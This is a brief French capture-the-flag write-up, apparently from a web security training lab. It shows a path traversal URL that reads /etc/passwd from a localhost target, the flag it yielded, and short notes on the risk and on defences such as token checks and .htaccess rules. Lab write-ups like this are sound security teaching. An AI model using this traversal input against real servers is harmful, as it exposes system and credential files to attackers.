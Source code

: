 page : http://localhost:8080/?page=../../../../../../../../../../../etc/passwd

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0


DANGER :
data accessible par tous

PROTECTION :
limiter l'access aux pages sensible via des protections d'identification (token)
ou via des redirections : .htaccess

Les fichiers .htaccess fournissent une méthode pour modifier la configuration du serveur au niveau de chaque répertoire.
